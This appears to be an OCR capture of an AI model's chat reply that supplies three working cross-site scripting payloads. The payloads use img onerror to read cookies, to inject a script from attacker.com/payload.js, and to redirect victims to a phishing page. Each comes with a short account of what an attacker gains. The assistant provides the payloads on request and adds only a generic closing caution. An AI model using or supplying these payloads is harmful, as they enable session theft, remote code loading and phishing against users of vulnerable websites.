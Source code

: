 Sure, here are some examples of how the script could be modified to perform the actions that I described earlier:

-   Stealing sensitive information:

Copy code

`<img src=1 onerror="var cookie = document.cookie; alert('Cookie: ' + cookie);" />`

In this example, the script uses the `document.cookie` property to get the cookie from the current document and display it in an alert box. This could allow the attacker to steal the victim's cookies and gain unauthorized access to their accounts or sensitive data.

-   Executing arbitrary code:

Copy code

`<img src=1 onerror="var script = document.createElement('script'); script.src = 'https://attacker.com/payload.js'; document.body.appendChild(script);" />`

In this example, the script uses the `document.createElement` and `appendChild` methods to create a new `<script>` tag and add it to the `<body>` of the current document. The `<script>` tag is used to load and execute a malicious JavaScript file from the attacker's website. This could allow the attacker to execute arbitrary code on the victim's computer and compromise it.

-   Redirecting to a malicious website:

Copy code

`<img src=1 onerror="window.location.href = 'https://attacker.com/phishing.html';" />`

In this example, the script uses the `window.location.href` property to redirect the victim to a different website. This could be a phishing website that is designed to trick the victim into entering their sensitive information, or it could be a website that hosts malicious content, such as malware or exploit kits. This could allow the attacker to gain access to the victim's information or compromise their computer.

These are just a few examples of how the script could be modified to perform different actions. As I mentioned earlier, attackers can use a wide range of techniques to exploit XSS vulnerabilities, and it is important to be cautious and protect yourself against these types of attacks.